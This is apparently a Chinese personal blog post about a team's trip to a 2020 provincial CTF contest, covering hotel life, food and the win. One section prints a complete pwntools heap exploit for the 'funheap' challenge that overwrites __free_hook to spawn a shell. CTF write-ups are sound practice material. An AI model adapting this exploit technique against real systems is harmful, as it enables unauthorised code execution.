




# 醉饮九回潇洒去，万军从中取首级——2020省赛之旅

## 前言

在经历过初赛龙鸣题目的折磨之后👴们轻松进入省赛决赛。今年山大不知道请到了哪里的神仙，能够承办省赛。于是我们乘着门口的地铁直奔山大而去。

## 实验室集体出游的第一天

👴们还没出发之前他们搁实验室打太湖杯。没办法，只好等一会儿。等到比赛完了，他们要写wp。写完wp，👴们就不用去了。所以我和coin哥哥坚定地选择先走。

到达山大现场。比赛是在体育场举办的，看着还不算很差。签到完他们让测试网络。👴寻思着只给了一根网线你测你🐴呢。后来问了问腾讯新闻，得到了如下回答。



后来转接头插错了孔，以为不能上网虚惊一场。

### 夜里

👴跟RWind一个房间，AiDai👴👴跟Rui一个房间，Coin哥哥跟_restart一个房间。

下面重点来了。由于_restart没来，他立了一个带功。这次同行的有两个女生。孙哥跟其中一个是cp。按道理如果房间是满的，是不能够在满足男女不同房间的情况下进行交换的。但是\_restart这一操作直接空出来一个位置。这便给了他们极大的操作空间。然后......就。。。省略一万字。

刚到宾馆那会儿👴们寻思着整🔥。一边的房间普遍偏小，另一边普遍偏大。于是我们都去了aidai👴👴的带房间里面准备整🔥。

#### 放映机

他们搁那儿研究怎么连接hdmi接头，这是这么多人进行佳片有约的必要条件。

放映机调电视频道，不管用。

试图从放映机上找视频切换，不管用。

拔下hdmi来插电脑，不管用。

然后👴看不下去了，直接拿起遥控器一通乱点，点到了`电视直播`这一项。右上角显示`hdmi已连接`。aidai的桌面翼然显示在带屏幕上。看来还是得pwn👴👴出🐴。

#### 口乞

没整到啥🔥。BPL和aidai突然想要点个外卖吃。本来这晚饭就不是很好，就是嗨带还好点，我就顺便让他们给点了点🐔吃。整了一份鸡叉，一份🌶的鸡架，一份不🌶的鸡架。三个人就搁小茶几上口乞了一会儿。鸡叉整的稍微有点干，吃起来有点划嘴。鸡架就差不多，孜然与鸡肉的香嫩结合在一起，口感相当不错。只不过稍微有点咸。

由于这里两只手上全是🐔，没法拍照。

#### 千钧一发

之后我们便开始准备明天的省赛了。

配环境，各种题库，工具都给备齐了。然后各回各家，准备睡觉。

突然想到博客啥的还没存。原因是aidai给👴发了个这个：



他搁这儿clone👴的博客拖不下来呢。于是我们直接回到整🔥地。直接U盘交换博客。这博客之后帮我解了一道题，后面会提到。

之后我还从他那儿嫖了一份CyberChef，也帮我解了一道题。

## 第二天——拿钱

进场主办方致敬ylb，现场放音乐恶心人。（后面听的时候其实不是很阴间

<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=29562457&auto=0&height=66"></iframe>

此曲非现场所放，仅用于致敬ylb。

赛前领导随便讲了点话比赛就开始了。选择题一共遇到不到三个关于二进制的题目，直接gg，蒙着过。

年轻人不讲武德，上来就是一个web签到，一个流量包，一个编码题，我全没防出去啊。全没防出去自然是去看pwn题，第一题格式化字符串秒了，我笑一下，直接去看100分pwn，一个libc2.31，一个cet，一个off-by-null，我这时候收拳不打了。

直接去看密码学，第一题在我还在做选择题的时候aidai已经把它秒了。我直接`command+space`做题大法，找出了aidai以前的crypto脚本，一套，出答案。然后交flag，结果显示不对。

后来才发现是平台抽风了。此处再次致敬ylb。

收拳之后，自然是去日流量包。wireshark打不开，于是尝试strings一下试试。出现了以`ZmxhZw`开头的base64，我知道这是flag了。

然后就一个题都不会做了。

突然想试试能不能把pwn题给做了加点分混个一等奖啥的，突然发现add时没有进行清空，这tm堆直接泄露了unlink啊。我直接来，骗，来，偷袭，这100分的老pwn题。直接一通操作把pwn题秒了，把👴的吊名挂在了funheap的一血位置上。大约12：10分左右出了。👴开始吃饭。

不到一会儿，aidai也把这题给出了二血。组委会直接派俩人来要exp，小伙子你怎么回事。我说老师我错了错了，我不懂规矩，我把exp给你。

```python
from pwn import *
#a = process("./funheap")
libc = ELF("./funheap")
elf = ELF("/lib/x86_64-linux-gnu/libc-2.31.so")
#context.log_level = 'debug'

choo = lambda x : a.sendlineafter("CMD >>",str(x))

def add(size):
	choo(1)
	a.sendlineafter("Size:",str(size))

def show(idx):
	choo(3)
	a.sendlineafter("Index:",str(idx))

def free(idx):
	choo(2)
	a.sendlineafter("Index:",str(idx))

def edit(idx,con):
	choo(4)
	a.sendlineafter("Index:",str(idx))
	a.sendlineafter("Note:",con)

add(0x20)
add(0x20)
free(0)
free(1)
add(0x20)#0
show(0)
a.recvuntil("Note:")
heap_base = u64(a.recv(6).ljust(8,b'\x00'))
log.info("heap_base = "+hex(heap_base))
add(0x500)#1
add(0x68)#2
add(0x4f8)#3
add(0x18)#4
payload = p64(0)+p64(0x571)+p64(heap_base+0x60)+p64(heap_base+0x60)
edit(1,payload)
edit(2,b'a'*0x60+p64(0x570))
free(3)
add(0x4f0)#3
show(2)
pause()
libc_base = u64(a.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))-0x1ebbe0
log.info("libc_base = "+hex(libc_base))
add(0x68)#5
add(0x68)#6
add(0x480)#7
free(6)
free(5)
edit(2,p64(libc_base+elf.sym["__free_hook"]))
add(0x68)#5
add(0x68)#6
edit(6,p64(libc_base+elf.sym["system"]))
edit(5,"/bin/sh")
free(5)
a.interactive()
```

（这里组委会一定不知道aidai👴👴跟👴都是pwn👴👴

这一题100分，直接让我从下边飞起直上第一，从这以后我就再也没掉下来过。

我收拳这时候不打了，转去做时间刺客。没看到hint搁那儿爆破了老一会儿。最后看到了hint，用CyberChef转时间戳，直接一把唆了。

一会儿看js解的人也挺多，直接去看js。控制台输进去发现字符跟输出的两位是一一对应的，直接拿个python字典唆了。

之后干看着屏幕盯了好几个小时。看到coin哥哥ak了密码还顶不上我一半，属实有点心疼密码。

最后比赛就这么愉快的结束了。爱好者组稳第一。

### 赛后

coin哥哥见了我第一句话：`*你*`。

Milu见了我：`你看这家伙这个b脸`。

aidai：我恭喜你发财了.jpg

只有杰哥跟我谈笑风生。

搁那儿玩了一会儿。到特等奖了，只有👴一个人上台，享受贵宾级待遇。一会儿一个带领导来给👴颁奖。之后合影。下去领钱，3w，钱厚的一匹。

趁数钱这空里aidai给👴拍下来了，tmd这照片全校出名了。



夜店，曲老师请客，口乞了一顿挺不戳。

之后还有Milu的操作：



## 醉饮九回潇洒去，万军从中取首级

醉饮九回潇洒去，即此行余等是来玩的，不管结果如何只管潇洒去来。

万军从中取首级，即私抓住pwn的机会，一举拿到制胜的最关键一点。

虽说运气成分很大，但还是要好好努力。争取在更加大的舞台上留下👴的脚印。